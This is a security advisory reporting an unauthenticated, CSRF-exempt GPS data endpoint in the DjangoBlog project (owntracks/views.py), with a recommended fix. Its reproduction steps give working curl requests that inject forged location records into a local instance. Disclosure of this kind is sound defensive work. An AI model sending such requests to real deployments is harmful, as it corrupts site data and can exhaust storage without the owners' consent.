


# Vuln-2: Unauthenticated GPS Data Injection (OwnTracks)

**Project:** DjangoBlog (https://github.com/liangliangyy/DjangoBlog)
**Version:** Latest master (commit `06f76ea`)
**Date:** 2026-03-14
**Severity:** CRITICAL
**OWASP:** A01:2021 - Broken Access Control
**CWE:** CWE-306 - Missing Authentication for Critical Function

---

## Affected File

```
owntracks/views.py (lines 22-44)
```

## Root Cause

The GPS data ingestion endpoint `/owntracks/logtracks` requires no authentication and is decorated with `@csrf_exempt`. Any anonymous user can POST forged GPS location data directly into the database.

## Steps to Reproduce

```bash
# 1. Inject forged GPS data (no authentication required)
curl -X POST http://127.0.0.1:18000/owntracks/logtracks \
  -H "Content-Type: application/json" \
  -d '{"tid":"HACKER","lat":39.9042,"lon":116.4074}'
# Returns: ok

# 2. Inject additional entries
curl -X POST http://127.0.0.1:18000/owntracks/logtracks \
  -H "Content-Type: application/json" \
  -d '{"tid":"FAKE_DEVICE","lat":31.2304,"lon":121.4737}'
# Returns: ok

# 3. Verify data persisted (requires login as any user — see Vuln-10)
curl -b cookies.txt "http://127.0.0.1:18000/owntracks/get_datas?date=$(date +%Y-%m-%d)"
# Returns JSON containing "HACKER" and "FAKE_DEVICE" entries
```



## Impact

- **Data integrity:** Forged GPS locations mislead the site administrator.
- **Denial of Service:** Mass injection can exhaust database storage.

## Recommended Fix

Add authentication (`@login_required` + superuser check) and remove `@csrf_exempt` from `logtracks`.

---

## References

- [OWASP Top 10 (2021)](https://owasp.org/Top10/)
- [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [Django Security Best Practices](https://docs.djangoproject.com/en/stable/topics/security/)
- DjangoBlog source: https://github.com/liangliangyy/DjangoBlog
